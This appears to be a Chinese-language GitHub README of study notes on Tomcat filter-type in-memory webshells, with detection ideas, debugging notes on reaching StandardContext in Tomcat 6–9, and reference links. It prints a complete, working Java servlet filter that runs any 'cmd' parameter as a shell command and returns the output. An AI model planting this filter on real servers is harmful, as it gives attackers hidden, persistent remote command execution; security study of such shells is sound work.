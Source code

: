 ## filter 型内存马

filter型内存马是将命令执行的文件通过动态注册成一个恶意的filter，这个filter没有落地文件并可以让客户端发来的请求通过它来做命令执行。


### filter检测思路


带有特殊含义的filter的名字比如shell等

Filter的优先级，filter内存马需要将filter调至最高

查看web.xml中有没有filter配置

检测特殊的classloader

检测classloader路径下没有class文件

检测Filter中的doFilter方法是否有恶意代码


## 代码调试

![](images/1.png)

CmdFilter.java

	import javax.servlet.*; // //apache-tomcat-7.0.79\lib\servlet-api.jar
	import javax.servlet.annotation.WebFilter;
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import java.io.IOException;
	import java.io.InputStream;
	import java.util.Scanner;
	
	//@javax.servlet.annotation.WebFilter(filterName = "CmdFilter")
	@WebFilter("/*")
	public class CmdFilter implements javax.servlet.Filter {
	    public void destroy() {
	    }
	
	    public void doFilter(javax.servlet.ServletRequest req, javax.servlet.ServletResponse resp, javax.servlet.FilterChain chain) throws javax.servlet.ServletException, IOException {
	        //HttpServletRequest req1 = (HttpServletRequest) req;
	        //HttpServletResponse resp1 = (HttpServletResponse) resp;
	        // 如果有cmd 参数 则拦截，否则 404
	        if (req.getParameter("cmd") != null) {
	            boolean isLinux = true;
	            String osTyp = System.getProperty("os.name");
	            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
	                isLinux = false;
	            }
	            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
	            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
	            //Scanner通过用户回车进行读取IO流,然后扫描是否有分隔符,如果没有,那么继续等待下一段IO流.
	            Scanner s = new Scanner(in).useDelimiter("\\A");  //设置当前scanner的分隔符,默认是空格,正则表达式"\\A"跟"^"的作用是一样的，代表文本的开头。
	            String output = s.hasNext() ? s.next() : "";
	            resp.getWriter().write(output);
	            resp.getWriter().flush();
	        }
	        chain.doFilter(req, resp);
	    }
	    public void init(javax.servlet.FilterConfig config) throws javax.servlet.ServletException {
	    }
	}

将编译后含有内存马的文件删掉仍不影响执行，这就是内存马的魅力！

![](images/3.png)

![](images/2.png)

**只有在服务端重启 tomcat 才会清除内存马。**


### 进一步

需要的4个jar都在tomcat 的lib文件夹下

	catalina.jar 、servlet-api.jar 、tomcat-api.jar 、tomcat-util-scan-8.0.1.jar

## tomcat 6,7,8,9 通用内存马

参考 [一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914) 

原文代码和逻辑有问题，我做了修改：

	见2.jsp

浏览器访问：

![](images/6.jpg)

服务器日志：

![](images/4.jpg)

**遇到的坑**

1.多线程调试

Koalr佬告诉我tomcat 默认就是多线程处理请求的，别用类 直接用函数，单步跟一下 别用 thread 起， 类会断不下，也就是多线程不进入断点。

![](images/5.jpg)

于是我参考 [在JSP页面中定义方法函数](https://blog.csdn.net/qq15577969/article/details/112808267) , 将方法写在 ```<%! %>```里面，将其他代码写在 ```<% %>```里面。

2.tomcat7 tomcat-util.jar 不包含一个类 ```https://github.com/apache/tomcat/blob/7.0.x/java/org/apache/tomcat/util/buf/MessageBytes.java```，也是K佬帮我找到的，在tomcat-coyote.jar里，可能是7版本之后打包方式变了，源码一直有的。如果无脑把tomcat lib下jar都add path，也不会有问题。

![](images/7.jpg)

**我的经验总结**

```getField(jioEndPoint, "handler").proto.endpoint.poller.selector.keys[0]```

![](images/8.png)

```getField(jioEndPoint, "handler").proto.endpoint.poller.selector.keys.toArray()[0].channel.localAddress.toString()```

![](images/9.png)

```jioEndPoint.poller.selector.keys.toArray()[0].channel.localAddress.toString()```

![](images/9.png)

每个Tomcat版本下，都会开一个Http-xio-端口-Acceptor的线程，Acceptor是用 来接收请求的，这些请求自然会交给后面的Engine->Host->Context->servlet

![](images/11.png)

```(threads[6].target.endpoint.poller.selector.keys).toArray()[0].channel.toString()```

![](images/10.png)

即使使用ip访问，线程获取到的只有localhost，不过这并不影响最终获取：

Tomcat9：

Poller线程：

![](images/12.png)

```threads[5].target.this$0.handler.proto.adapter.connector.service.engine.children```

![](images/13.png)

Acceptor线程：

```threads[6].target.endpoint.handler.proto.adapter.connector.service.engine.children```

![](images/14.png)

获取到 StandardContext:

![](images/15.png)

[Tomcat Acceptor/Poller](https://blog.csdn.net/u011385186/article/details/53148702)

## reference

[java dofilter_Java 中的过滤器Filter](https://blog.csdn.net/weixin_35408656/article/details/114216314)

[Java Web之过滤器Filter（@WebFilter）--IDEA创建Filter](https://blog.csdn.net/weixin_44989630/article/details/121357652)

[idea右键创建Servlet、Filter、Listener类](https://blog.csdn.net/qq_45953233/article/details/117536332)

[Tomcat 6/7/8/9全版本回显](https://www.cnblogs.com/zpchcbd/p/15153518.html)

[Java安全之基于Tomcat实现内存马](https://www.cnblogs.com/nice0e3/p/14622879.html) 本文给了一个tomcat内存马demo，已复现

[java内存马分析集合](https://blog.csdn.net/hongduilanjun/article/details/123953157) 给出了servlet/filter型内存马等利用

[【安全记录】通过jsp文件注入内存马](https://blog.csdn.net/FHLZLHQ/article/details/119947107)  介绍了通过jsp生成filter型和servlet型内存马

[Java内存马：一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914)

[Tomcat 内存马学习(二)：结合反序列化注入内存马](http://wjlshare.com/archives/1541)

[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348#toc-3)

[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)

备注：

tomcat 7 整个大版本这个类打包到 tomcat-coyote.jar里了

https://github.com/apache/tomcat/blob/7.0.x/java/org/apache/tomcat/util/buf/MessageBytes.java

在 tomcat 8 开始 这个类被打包到 tomcat-util.jar 里，如果发现jar找不到，不妨把tomcat lib 下 所有jar build path

https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-util



Todo：

[内存马介绍及分析（转载）](https://blog.csdn.net/QQ584674068/article/details/121971247)

[手把手教你实现tomcat内存马](https://jishuin.proginn.com/p/763bfbd78371)

[利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)

[Java Agent 从入门到内存马](https://xz.aliyun.com/t/9450)

[浅谈 Java Agent 内存马](https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq)